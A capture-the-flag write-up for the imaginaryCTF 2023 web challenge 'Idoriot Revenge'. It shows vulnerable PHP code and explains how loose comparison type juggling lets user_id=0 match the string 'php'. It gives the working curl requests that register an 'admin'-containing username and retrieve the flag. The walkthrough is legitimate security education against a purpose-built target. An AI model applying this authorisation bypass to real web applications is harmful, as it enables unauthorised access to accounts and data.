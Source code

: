 ```yaml
---
title: imaginaryCTF 2023 - Idoriot Revenge
date: Sun Jul 23 07:07:59 PM +04 2023
categories: [Writeup]
tags: [ctf,imaginaryctf,imaginaryctf2023,web]
---
```


## Description

by `tirefire`

The idiot who made it, made it so bad that the first version was super easy. It was changed to fix it.

**Attachments**: [http://idoriot-revenge.chal.imaginaryctf.org](http://idoriot-revenge.chal.imaginaryctf.org/)

## Solution

Same as [Idoriot]({% post_url /imaginaryCTF/2023/2023-07-23-Idoriot %}), we register and get source code.

```php
// Check user_id
if (isset($_GET['user_id'])) {
    $user_id = (int) $_GET['user_id'];
    // Check if the user is admin
    if ($user_id == "php" && preg_match("/".$admin['username']."/", $_SESSION['username'])) {
        // Read the flag from flag.txt
        $flag = file_get_contents('/flag.txt');
        echo "<h1>Flag</h1>";
        echo "<p>$flag</p>";
    }
}
```

1. We just need to create a user where `admin` word is inside.
2. `$user_id == "php"` user_id is int and `int == str` becomes `int == (int) str`. This is because [php type juggling](https://www.php.net/manual/en/language.types.type-juggling.php) (`==` is not safe for exact comparision, `===` should be used). In this case `(int) str` becomes 0, so we need `user_id` to be 0.

Let's do it with `cUrl`:

```powershell
# "-sS -D -": To get headers (Post and Header request can't be set at the same time)
# "-X POST": Send post request to register
# "-d": Send post form data
➜ curl -sS -D - -X POST http://idoriot-revenge.chal.imaginaryctf.org/register.php -d "username=adminUwU&password=anything"
HTTP/1.1 302 Found
Date: Sun, 23 Jul 2023 14:56:04 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Set-Cookie: PHPSESSID=ece69f5911ff1b59d01be00b81fbc9ce; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: index.php?user_id=729879799
Content-Length: 0
Content-Type: text/html; charset=UTF-8

# Add `?user_id=0` to update user_id to 0
# "-b": Send cookie. PHPSESSID is identifier of user so that's why we requested Headers before
# "-s": To not display progress bar
# "Select-String ictf": `grep` like tool, but in powershell.
➜ curl http://idoriot-revenge.chal.imaginaryctf.org/?user_id=0 -b "PHPSESSID=ece69f5911ff1b59d01be00b81fbc9ce;" -s | Select-String ictf

Welcome, User ID: 729879799<h1>Flag</h1><p>ictf{this_ch4lleng3_creator_1s_really_an_idoriot}</p><h1>Source Code
</h1><code><span style="color: #000000">
```

> Flag: ictf{this_ch4lleng3_creator_1s_really_an_idoriot}
{: .prompt-tip }